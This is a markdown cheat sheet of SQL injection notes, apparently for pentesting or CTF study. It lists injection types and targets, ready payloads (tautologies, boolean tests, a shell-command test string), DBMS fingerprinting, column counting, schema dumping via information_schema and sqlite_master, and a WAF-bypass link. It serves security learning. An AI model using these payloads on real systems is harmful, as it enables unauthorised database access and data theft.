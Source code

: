 # SQLi Injection 

## Types of SQLi  
* In-band: attacker uses the same channel of communication to launch their attacks and gather their results.
    * Error-based - relies on database to provide error messages
    * Union-based - fuses multiple select statements 
* Blind SQLi: attacker observes behaviour of payloads to determine existence of SQLi
    * Time-based - relies on waitin period between sending query and response to determine if vuln exists
    * Boolean - result returned varies depending on if query is true or false
* Out-of-band: attacker can't use the same channel to launch attack and gather information (Eg: server too slow)

## Injection targets
* Input fields
* URLs
```
http://application/apiv1/Users/?id=1 ' AND '1' LIKE '1'
```

* HTTP Headers  
    * [User-Agent](https://medium.com/@frostnull/sql-injection-through-user-agent-44a1150f6888)  
    * Referrer

## Exploit Payloads
Test ALL input fields  
```
'
"
'";<lol/>../--#`ls`
```
Error Based: Basic payloads to check for existence of SQL vuln
```
' or 1=1#
' or 1=1--
' or '1'='1'--
' or '1'='1';--

" or 1=1#  
" or 1=1-- 
" or '1'='1'--
" or '1'='1';--
```

Boolean Based: Proving existence with AND , OR injections

When injecting the `' AND 1=1` sql query, the same records should be returned as uninjected version since `name=productname` condition is met
```sql
SELECT * from PRODUCTS WHERE PRODUCTNAME = 'shirt' AND '1'='1';
```

Now, NO records should be returned as the second query is false. If this is the case, we can be sure of SQLi existence 
```sql
SELECT * from PRODUCTS WHERE PRODUCTNAME = 'shirt' AND '1'='0';
```

## Database fingerprinting
Syntax of SQL used depends on type of database used (MySQL, Oracle, MSSQL, SQLite).
Error messages can help determine which dbms. 

MySQL version:
```sql
SELECT @@version
```
Note, the complete query might look like `SELECT id, qty FROM products WHERE id=1 UNION SELECT 1, @@version`

SQLite version:
```sql
select sqlite_version();
```

## Figuring out number of columns
For when error messages are enabled, we have two options

Using ORDER BY:
```sql
1' ORDER BY 1--	#True
1' ORDER BY 2--	#True
1' ORDER BY 3--	#True
1' ORDER BY 4--	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```

Using UNION SELECT:
```sql
1' UNION SELECT @        #The used SELECT statements have a different number of columns
1' UNION SELECT @,@      #The used SELECT statements have a different number of columns
1' UNION SELECT @,@,@    #No error means query uses 3 columns
                         #-1' UNION SELECT 1,2,3--	True
```

## Figuring out all database data - master tables

Provided you know the number of columns.

MySQL:
Can use `information_schema.schemata`
```sql
' UniOn Select 1,2,3,4,... fRoM information_schema.schemata
' union select 1,TABLE_NAME,3,4,5,6 FROM information_schema.columns;                                #To get all tables used
'  union select COLUMN_NAME,2,3,4,5,6 FROM information_schema.columns WHERE TABLE_NAME = 'users';   #To get all columns used in table users

```

SQLite:
Generally, a table called `sqlite_master` with columns `tbl_name` etc. contains all tables meta-data.

```sql
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'    #Extract table names
```

## Bypassing WAF
https://securityonline.info/sql-injection-9-ways-bypass-web-application-firewall/


## References:
[SQLite Injections](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)

[MySQL Injections](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-comment)

## SQL Syntax that I didnt know about
1. `LIMIT` to limit number of rows and `OFFSET` to define the start of rows
```
' UNION blah blah LIMIT 1 OFFSET 1
```
